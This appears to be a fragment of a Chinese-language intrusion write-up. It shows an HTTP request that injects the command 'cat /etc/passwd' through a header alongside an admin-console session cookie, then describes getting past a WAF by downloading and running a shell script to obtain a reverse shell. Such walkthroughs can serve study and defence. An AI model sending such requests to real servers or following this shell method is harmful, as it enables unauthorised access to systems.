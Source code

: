 ```php
cmd: cat /etc/passwd

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

X-Forwarded-For: 172.31.40.99

Accept-Encoding: gzip, deflate

Connection: close

Cookie: ADMINCONSOLESESSION=WHqrvH8XRq2j2nId4ceZgd2kL6Efx8jIdDF5dORfgPHTtTIriMAe!1051469142

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0
```

![图片.png](assets/1698900845-60809dde62e42ef8816270e4e642c2c1.png)

执行命令反弹 shell 失败，猜测被 waf 拦截，然后通过下载 sh 文件执行，成功反弹 shell：

![图片.png](assets/1698900845-56b387bf51c5545849d7edb8843b34e7.png)

